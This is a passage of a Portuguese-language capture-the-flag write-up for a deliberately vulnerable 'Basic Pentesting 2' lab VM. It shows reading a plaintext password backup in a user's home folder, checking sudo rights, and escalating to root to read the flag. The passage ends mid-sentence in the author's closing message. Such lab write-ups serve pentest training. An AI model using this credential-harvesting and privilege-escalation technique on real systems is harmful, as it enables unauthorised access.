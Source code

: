 ![Alt text](/assets/img/basicpentest5.png)

Agora podemos ler esse arquivo na home de kay, é a senha de usuário dele.

kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
kay@basic2:~$ 


```shell
kay@basic2:~$ sudo -l
[sudo] password for kay: 
Sorry, try again.
[sudo] password for kay: 
Matching Defaults entries for kay on basic2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	User kay may run the following commands on basic2:
    (ALL : ALL) ALL
```
{: .nolineno }
### Escalando para root

```shell
kay@basic2:~$ sudo su
root@basic2:/# cd root/
root@basic2:~# ls
flag.txt
root@basic2:~# cat flag.txt 
Congratulations! You've completed this challenge. There are two ways (that I'm aware of) to gain 
a shell, and two ways to privesc. I encourage you to find them all!

If you're in the target audience (newcomers to pentesting), I hope you learned something. A few
takeaways from this challenge should be that every little bit of information you can find can be
valuable, but sometimes you'll need to find several different pieces of information and combine
them to make them useful. Enumeration is key! Also, sometimes it's not as easy as just finding
an obviously outdated, vulnerable service right away with a port scan (unlike the first entry
in this series). Usually you'll have to dig deeper to find things that aren't as obvious, and
therefore might've been overlooked by administrators.

Thanks for taking the time to solve this VM. If you choose to create a writeup, I hope you'll send 
me a link! I can be reached at josiah@vt.edu. If you've got questions or feedback, please reach
```